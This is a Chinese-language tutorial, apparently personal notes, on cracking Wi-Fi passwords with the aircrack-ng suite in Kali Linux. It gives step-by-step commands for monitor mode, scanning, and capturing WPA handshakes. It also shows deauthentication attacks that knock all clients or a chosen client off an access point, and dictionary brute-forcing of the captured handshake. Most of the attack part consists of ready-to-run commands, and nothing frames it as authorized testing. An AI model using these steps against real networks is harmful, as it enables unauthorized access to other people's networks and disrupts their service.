 # 无线攻击

## 配置

在无线安全测试中，最基础的就是要有一个无线网卡（无线适配器），最好是对Kali Linux免驱，也就是无线网卡在Kali Linux中是“即插即用”的，无需安装额外的驱动程序，Kali Linux能够自动识别并加载内置的该无线网卡的驱动程序。而不使用计算机自带的无线网卡的原因是：许多计算机自带的无线网卡不支持特定功能，或者其驱动程序在Linux环境中不支持这些功能，如监听模式（Monitor Mode）和包注入（Packet Injection）。

其次，无线安全测试中，主要使用的是`aircrack-ng`套件，确保已经安装（Kali Linux自带）。

## 侦察

首先在插入网卡，在虚拟机中，虚拟机-可移动设备中连接无线网卡。

使用`iwconfig`命令，查看网卡是否已经连接到Kali：

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/0536d6a3-c650-4e09-9e75-6d2605917d10/b16d4229-c630-418e-ae8f-0bb2483fdc36/image.png)

## 监控

使用`aircrack-ng` 套件的`airmon-ng wlan0`命令开启监控功能。

## 扫描

使用`aircrack-ng` 套件的`airodump-ng`命扫描所有无线网络

`airodump-ng wlan0mon`

当发现目标网络时，停止扫描，使用下面命令针对目标网络进行监控。

`airodump-ng -c 6 --bssid 90:B6:7A:53:38:BE -w /home/maktub/Desktop/handshake/CU-9y9c wlan0mon`

-c：无线接入点的网络信道

—bssid：无线接入点的MAC

-w：将扫描信息写入文件

在用户和无线接入点传递WPA密钥匙时，就可以抓到数据包了，这是一种被动等待方法，主动就需要像目标网络发起取消鉴定攻击，将目标网络客户端踢下线，在客户端重连时就可以抓到数据包了。

## 攻击

使用`aircrack-ng` 套件的`aireplay-ng`命令发起攻击

`aireplay-ng --deauth 100 -a 14:6B:9A:DD:7C:90 wlan0mon` 将目标网络所有客户端踢下线

`aireplay-ng -0 100 -a 30:42:40:81:9C:C6 -c 04:10:90:05:00:00 wlan0mon` 将特定客户端踢下线

一旦抓到数据包，就会在终端右上角显示WPA+无线接入点的MAC

## 破解

抓到数据包之后，就需要对数据包密钥进行暴力破解，这需要一个强有力的字典以及`aircrack-ng` 套件的`aircrack-ng`命令

`aircrack-ng -w '/home/maktub/Desktop/密码字典/0-9.8位纯数密码.txt' -b 90:B6:7A:53:38:BE /home/maktub/Desktop/handshake/CU-9y9c-01.cap`

-w：密码字典位置

-b：无线接入点的MAC

数据包的cap文件，支持通配符对多个cap文件进行匹配。